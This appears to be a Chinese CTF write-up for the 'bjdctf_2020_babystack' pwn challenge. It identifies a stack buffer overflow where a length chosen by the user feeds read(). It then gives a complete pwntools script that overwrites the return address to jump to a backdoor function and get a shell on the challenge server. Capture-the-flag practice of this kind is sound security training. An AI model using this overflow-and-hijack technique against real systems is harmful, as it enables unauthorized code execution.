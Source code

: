 首先checksec

![image-20201103142341073](https://static.hack1s.fun/images/2021/02/06/image-20201103142341073.png)

64位程序，开启了NX

反编译得到main函数

![image-20201103150115631](https://static.hack1s.fun/images/2021/02/06/image-20201103150115631.png)

首先输入了一个数字，给到了nbytes

之后用read来读入nbytes个字节到buf

buf距离rbp存在0x10h

另外文件中存在一个backdoor函数

![image-20201103150253430](https://static.hack1s.fun/images/2021/02/06/image-20201103150253430.png)

可以直接调用得到shell

思路就是直接溢出0x10到rbp，然后8个字节rbp，最后覆盖返回地址到backdoor就完了

```python
from pwn import *

#io = process('./bjdctf_2020_babystack')
io = remote('node3.buuoj.cn',29781)

length = 30
io.recvuntil('name:\n')
io.sendline(str(length))

backdoor_addr = 0x4006e6
payload = 'a'*0x10 + 'b'*0x8 + p64(backdoor_addr)

io.recvuntil('name?\n')
io.sendline(payload)
io.interactive()
```

